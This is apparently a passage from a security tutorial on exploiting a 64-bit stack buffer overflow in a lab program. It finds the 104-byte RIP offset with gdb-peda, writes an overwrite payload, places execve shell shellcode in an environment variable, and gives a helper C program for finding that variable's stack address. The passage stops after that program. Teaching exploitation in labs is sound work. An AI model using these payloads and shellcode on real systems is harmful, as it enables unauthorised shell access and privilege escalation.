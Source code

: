 * 200 characters pattern string
* In red, 104 bytes of garbage characters
* In cyan, the `A7AAMAAiA` - this is where we would place our arbitrary RIP value

![104 bytes of garbage before we can place an arbitrary RIP value on the stack](<../../../.gitbook/assets/image (903).png>)

To calculate the offset in gdb-peda, we can use `pattern_offset` like so:

```python
gdb-peda$ pattern_offset A7AAMAAiA
A7AAMAAiA found at offset: 104
```

### RIP is Under Control

The RIP offset as we've just identified is `104`. Let's test it by generating a new garbage file that will now contain 104 `A` and a canonical return address `0x0000414141414141` (in reverse due to little-endianness):

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Sending this data to the vulnerable program reveals that we have now taken control of the RIP register (lime):

![We can now control RIP as it points to 0x0000414141414141](<../../../.gitbook/assets/image (899).png>)

## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN`, so it ends up in the vulnerable program's stack when it's executed, like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

{% hint style="info" %}
Note that if you are trying to replicate this in your lab and you would like the vulnerable program to spawn a root shell, you need to use the [shellcode](http://shell-storm.org/shellcode/files/shellcode-77.php) that calls `setuid(0)` first. Thanks [@reveng007](https://twitter.com/reveng007).
{% endhint %}

We now need to find where on stack the `PWN` environment variable will be located in the vulnerable program. For this, we can use the following program:

{% tabs %}
{% tab title="getenvvar.c" %}
```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```